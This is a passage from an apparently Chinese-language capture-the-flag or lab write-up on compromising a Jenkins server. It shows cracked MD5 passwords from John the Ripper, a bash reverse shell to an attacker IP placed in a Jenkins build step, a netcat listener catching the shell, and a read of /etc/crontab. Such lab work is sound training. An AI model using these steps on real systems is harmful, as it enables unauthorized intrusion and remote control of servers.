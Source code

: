       -    ```shell
           └─$ john --format=Raw-MD5 hash
           Using default input encoding: UTF-8
           Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
           Warning: no OpenMP support for this hash type, consider --fork=4
           Proceeding with single, rules:Single
           Press 'q' or Ctrl-C to abort, almost any other key for status
           Warning: Only 9 candidates buffered for the current salt, minimum 12 needed for performance.
           Almost done: Processing the remaining buffered candidate passwords, if any.
           Proceeding with wordlist:/usr/share/john/password.lst
           Proceeding with incremental:ASCII
           marianna         (trindade)     
           vipsu            (eder)     
           italia99         (tiago)     
           3g 0:00:02:11 DONE 3/3 (2023-05-23 10:35) 0.02280g/s 38733Kp/s 38733Kc/s 40107KC/s italia03..italiela
           Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
           Session completed.
           ```
      
      -    ![image-20230517100111935](https://raw.githubusercontent.com/r0o983/images/main/image-20230517100111935.png)
      
      -    成功进入后台`http://192.168.6.2:8080/`
      
      -    ![image-20230517100612624](https://raw.githubusercontent.com/r0o983/images/main/image-20230517100612624.png)
      
      1.   创建一个新项目
      
      2.   --》点击build选择需要执行的命令，这里的操作系统为Linux，所以选择`execute shell`,写入shell
      
      3.   ![image-20230517104450030](https://raw.githubusercontent.com/r0o983/images/main/image-20230517104450030.png)
      
      4.   >   /bin/bash -i >& /dev/tcp/192.168.8.128/6666 0>&1  # 不要在意这里的IP地址变了，因为换了网段
      
      5.   在本地起一个监听，等待连接`nc -nvlp 6666`
      
      6.   获得初始权限的shell
      
      7.   ```shell
           └─$ nc -nvlp 6666
           listening on [any] 6666 ...
           connect to [192.168.2.128] from (UNKNOWN) [192.168.2.129] 47938
           bash: no job control in this shell
           bash-4.2$ whoami
           whoami
           jenkins
           
           ```
      
      8.   查看是否有定时任务：` cat /etc/crontab`
      
      9.   ```shell
           bash-4.2$ cat /etc/crontab
           cat /etc/crontab
           SHELL=/bin/bash
           PATH=/sbin:/bin:/usr/sbin:/usr/bin
           MAILTO=root
           